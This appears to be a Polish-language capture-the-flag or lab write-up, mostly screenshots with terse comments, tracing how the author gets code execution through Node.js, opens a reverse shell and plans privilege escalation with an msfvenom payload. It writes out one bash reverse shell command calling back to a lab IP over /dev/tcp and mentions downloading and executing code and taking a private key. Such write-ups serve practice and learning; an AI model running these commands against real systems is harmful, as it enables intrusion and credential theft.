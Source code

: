 ### Shell
Teraz wydaje mi się, że bez problemu powinniuśmy móc wykonywać komendy nodejsa więc rce od ręki.


![{0F755B84-BC93-40AD-BB5B-A8D9302B4DC0}](https://github.com/user-attachments/assets/283ff0fa-e46f-4393-8cd7-1e97f97c6cbe)

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#NodeJs


![{808FEC68-D1FA-49A8-A09C-AD79E1E2FF8E}](https://github.com/user-attachments/assets/03ea5515-1822-4215-aacd-4cd207458551)

- nie dało shella


![{A641CAED-5060-4E69-8E2D-6E27C00C4179}](https://github.com/user-attachments/assets/e3be4235-00d2-4107-bf84-5332a8e0635e)

o curl działa


![{20768FBE-F20D-4DDF-979C-4BC357D5DB3A}](https://github.com/user-attachments/assets/d980731a-ac6c-47e6-8fb1-155387be0471)

a
```
bash -c 'bash -i >& /dev/tcp/10.8.4.124/443 0>&1'
```


![{FF51AF38-CE87-4038-ACC1-1DA529A0EE59}](https://github.com/user-attachments/assets/dae10a0e-fcd7-4278-bf65-cd1f3f633466)

download and execute

![{8A38675B-8B99-4B70-8DEE-6F95B74F99A7}](https://github.com/user-attachments/assets/93c9a3b0-edf3-497b-96df-1ee8247b8dd5)

poberać klucz pryawtny, ustabilizować shella, wkleić flage.


![{D9A1882D-1289-4A87-86C0-AFE8B0CB43F7}](https://github.com/user-attachments/assets/69dae952-81b0-437b-893c-e5d3c253ed5b)

hmmmmmm


![{DD501F68-A048-4862-81D7-CF1D909DE96F}](https://github.com/user-attachments/assets/41449d62-f4d8-4d56-bb97-36f804000770)

widzimy jakiś dodatkowy port 9515


![{2AE338CB-9E6D-4933-B909-E4AAB40891ED}](https://github.com/user-attachments/assets/ac5ac5c1-a00c-435e-b942-27e2936ed4a0)

wygląda jakby to mogło być powiazane.

Do finalnej exploitacji potrzebujemy shella w elfie więc najprościej msfvenom


![{2AC008BE-BF27-4D21-838C-239DABFE77C5}](https://github.com/user-attachments/assets/41000af6-acb8-4ee2-b3bd-dc2966f1d881)


![{CBB3BC70-7D60-4D1E-AE3F-2EA65E0C7EFE}](https://github.com/user-attachments/assets/98970fa7-60ad-4bb8-9b37-b1717febec50)

